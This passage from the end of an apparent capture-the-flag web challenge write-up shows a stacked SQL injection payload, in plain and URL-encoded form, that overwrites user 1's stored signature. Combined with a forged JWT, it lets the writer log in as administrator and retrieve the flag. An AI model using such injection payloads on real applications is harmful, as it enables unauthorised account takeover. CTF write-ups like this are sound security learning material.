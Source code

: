 Hex encoded signature:

```
';UPDATE signatures SET signature = 0x6e71634c6c76505634795752786c7953755f4c55346b723869534462596c736b69367933494544716a4e41 WHERE user_id = 1#
```

URL-encoded payload:

```
%27%3BUPDATE%20signatures%20SET%20signature%20%3D%200x6e71634c6c76505634795752786c7953755f4c55346b723869534462596c736b69367933494544716a4e41%20WHERE%20user_id%20%3D%201%23
```

Now after inserting the malicious signature we can use our previously created JWT to login as administrator and get the flag from `/conroller/admin`.

![img](./assets/flag.png)

![img](./assets/solved.png)

